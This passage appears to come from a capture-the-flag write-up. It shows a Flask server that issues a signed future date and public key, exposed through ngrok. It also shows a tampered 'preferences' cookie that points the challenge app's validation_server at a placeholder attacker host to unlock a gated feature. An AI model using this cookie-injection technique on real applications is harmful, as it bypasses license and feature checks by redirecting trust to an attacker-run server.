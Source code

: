 ```python

@app.route('/pubkey', methods=['GET'])
def get_pubkey():
    return key.public_key().export_key(format='PEM'), 200, {'Content-Type': 'text/plain; charset=utf-8'}

@app.route('/', methods=['GET'])
def generate_signed_date():
    date = int(time.time()) + 14 * 24 * 60 * 60
    date, signature = generate_date_and_sign(str(date))

    return jsonify({
        'date': date,
        'signature': signature
    })

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```
{% endcode %}

Start the server, then use some service like `ngrok` to expose the local port `1337` to the internet.

Update the `preferences` cookie, e.g.

{% code overflow="wrap" %}
```json
{ "validation_server": "https://ATTACKER_SERVER", "theme": "light", "language": "en" }
```
{% endcode %}

Finally, visit the challenge URL with the `debug` GET parameter set to `true`.

{% code overflow="wrap" %}
```
http://127.0.0.1:5000/release?debug=true
```
{% endcode %}

We get a hit in the server logs!

{% code overflow="wrap" %}
```bash
+-------------------------+----------------------------------+
| Forwarding traffic to   |     http://localhost:1337        |
+-------------------------+----------------------------------+
200		GET	/pubkey
200		GET	/
```
{% endcode %}

The feature is now unlocked!

